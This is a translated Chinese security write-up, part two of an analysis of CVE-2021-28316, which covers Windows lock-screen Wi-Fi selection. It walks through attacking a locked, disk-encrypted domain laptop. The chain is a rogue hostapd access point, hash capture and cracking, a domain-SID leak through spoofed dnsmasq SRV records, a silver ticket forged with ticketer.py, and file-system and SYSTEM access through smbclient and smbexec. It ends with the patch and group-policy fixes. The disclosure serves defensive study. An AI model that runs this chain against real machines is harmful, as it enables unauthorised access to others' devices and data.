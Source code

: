 
# 深入分析CVE-2021-28316漏洞（下）


                                阅读量   
                                **175052**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matthew Johnson，文章来源：shenaniganslabs.io
                                <br>原文地址：[https://shenaniganslabs.io/2021/04/13/Airstrike.html﻿](https://shenaniganslabs.io/2021/04/13/Airstrike.html%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)



在上一篇文章中，我们为读者详细介绍了CVE-2021-28316漏洞的背景知识，并展示了实现本地提权的过程，在本文中，我们将继续为读者介绍如何恢复HTML哈希值等重要知识点。

（接上文）

## 恢复NTLM哈希值

然后，攻击者可以将捕获到的这个MSCHAPv2质询响应的哈希值，通过工具chapcrack转换为Cloud Crack格式，并提交给crack.sh服务进行破解。

[![](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)

为了达到演示的目的，在我们的实验中，将使用Impacket的工具secretsdump.py来验证chapcrack输出的K3的前4个字节与计算机账户的NTLM哈希值的后4个字节是否匹配。

[![](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)

作为一个经过身份验证的域用户，我们可以通过多种方式获取域SID。其中，最简单的方法是运行whoami /all命令。

[![](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)

现在，我们已经掌握了为设备上的CIFS服务伪造一个服务票据所需的所有信息。由于我们可以指定服务票据中包含的用户和组SID，这样的话，我们就可以用它来作为具有管理权限的用户来访问CIFS服务了。

为此，我们可以使用Impacket中的工具ticketer.py和下面的命令来完成这个任务。

```
ticketer.py -nthash c86afa9bd3c7afa9ff31da6af182ddbe -domain-sid S-1-5-21-553012155-822088108-1873906631 -domain INITECH.local -spn cifs/DESKTOP-J5KI5KA.initech.local administrator
export KRB5CCNAME=administrator.ccache
```

[![](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)

这样的话，使用smbclient，我们就可以访问笔记本电脑的整个文件系统了。

[![](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)

Impacket中的smbexec.py之类的工具为我们提供了一种简便的方法，可以在SYSTEM用户的安全上下文中在主机上执行命令。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)

在发现可以从锁屏状态下获取质询响应的哈希值之后，攻击者又找到了一些更有趣的攻击情形，例如，攻击启用了全盘加密（FDE）的、处于锁屏状态的笔记本电脑。

但是，为了利用这一漏洞，目前还缺少重要的一环，即域SID。我们需要一种无需先登录到计算机即可恢复它的方法。



## 缺失的一环

在发现这种攻击方法几个月之后，一位客户联系我们，要求对其一台SOE笔记本电脑进行相应的安全测试。他们特别关心的是，如果攻击者能够将魔爪伸向受到BitLocker全盘加密保护的、处于锁屏状态的笔记本电脑上，将会造成多大的损失。

针对这种特定攻击情形，我本人和我的同事Danyal Drew（[@DanyalDrew](https://github.com/DanyalDrew)）重新考虑了这个想法，并着手考察是否可以找到一种无需登录计算机即可泄漏域SID的方法。

当加入域的计算机首次访问网络时，将执行许多CLDAP搜索，以识别域控制器上可用的服务。这些消息称为LDAP ping。

这听起来很有希望，因为在此搜索过程中使用的CLDAP查询包含以下信息：
- DnsDomain
- Host
- DnsHostName
- User
- DomainSid
- DomainGuid
我们的初步测试方法是，运行Wireshark捕获并观察无线客户端发出的LDAP DNS请求。

[![](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)

然后，将这些srv-host DNS条目添加到dnsmasq配置中并重新连接客户端后，我们找到了目标内容。

[![](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)

这样，我们现在就获得了入侵处于锁屏状态的笔记本电脑所需的一切。



## 在启用了全盘加密的情况下访问处于锁屏状态的计算机

实际上，这里的恶意AP配置也可用于通过目标设备的锁屏页面捕获质询响应的哈希值并提交给crack.sh服务。

要泄漏域SID，我们需要将笔记本电脑加入攻击者控制的网络；在该网络中，我们将使用攻击者的IP地址响应笔记本电脑发出的所有DNS SRV请求。

这样的话，我们就能够捕获包含域SID和域名的“ LDAP ping”数据包。同样的，我们还需要运行恶意访问点，并强制客户端从锁屏页面进行连接。但是，这次，我们将使用下面的hostapd.conf和hostapd-psk文件创建WPA2-PSK网络，而不是配置访问点以支持PEAP身份验证。

```
interface=$WIRELESS_INTERFACE_HERE
ssid=Airstrike_WPA
channel=1
auth_algs=1
wpa=3
wpa_psk_file=./hostapd-psk
wpa_key_mgmt=WPA-PSK 
wpa_pairwise=CCMP TKIP
rsn_pairwise=CCMP
```

然后，建立一个文件hostapd-psk，用于配置网络的密码。

```
00:00:00:00:00:00 airstrike
```

由于我们希望笔记本电脑能够连接到自己的网络，因此，我们还需要使用dnsmasq来运行DHCP和DNS服务器，所需的dnsmasq.conf文件如下所示。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

接下来，让我们可以为无线适配器分配一个IP地址，并启动DNS/DHCP服务器。

```
ifconfig $WIRELESS_INTERFACE 10.0.0.1/24 up
dnsmasq -d -C dnsmasq.conf
```

为了捕获来自笔记本电脑的流量，我们还需要在无线接口上启用tcpdump。

```
tcpdump -i $WIRELESS_INTERFACE -s 65535 -w $OUT_FILE.pcap
```

一旦运行上述命令，我们就可以从锁屏页面连接到无线网络，并且会在笔记本电脑上看到从我们的DHCP服务器接收的IP数据包。

需要注意的是，笔记本电脑首次连接时，我们会看到许多无应答的SRV DNS请求。我们需要记录下所有这些内容，并修改dnsmasq.conf文件，以使用无线接入点的IP地址可以响应它们。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp

srv-host=_ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.a3fcc77a-710d-4956-af07-bfa9187b91e9.domains._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.INITECH.local,10.0.0.1,389
```

接下来，我们可以断开笔记本电脑与接入点的连接，然后重新连接，并检查新的pcap文件的内容。如果我们过滤的是CLDAP协议的数据包，我们就会发现笔记本电脑试图对攻击者的IP进行LDAP ping。并且，LDAP ping消息的内容将包括活动目录域名、笔记本电脑的主机名和域SID。

现在，我们可以再次使用工具ticketer.py为CIFS服务创建一个白银票据，并使用smbclient进行身份验证，从而获得对设备文件系统的无限制访问权限。

注意：在某些情况下，默认的RID 500帐户在加入域的主机上并不具有本地管理员权限。在这种情况下，可以通过暴力搜索方法：不断递增白银票据中的RID，直到发现有效帐户为止。



## 补救措施

这个安全问题已报告给Microsoft安全响应中心，并且已在2021年4月的最新安全更新中得到修复。

作为进一步的加强措施，我们可以通过以下组策略设置，禁用从锁屏页面访问网络选择UI的功能：

```
Computer Configuration | Administrative Templates | System | Logon --&gt; Do not display network selection UI

```

此外，我们也可以通过配置注册表，启用DontDisplayNetworkSelectionUI标志来实现上述目的：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System]
"DontDisplayNetworkSelectionUI"=dword:00000001
```
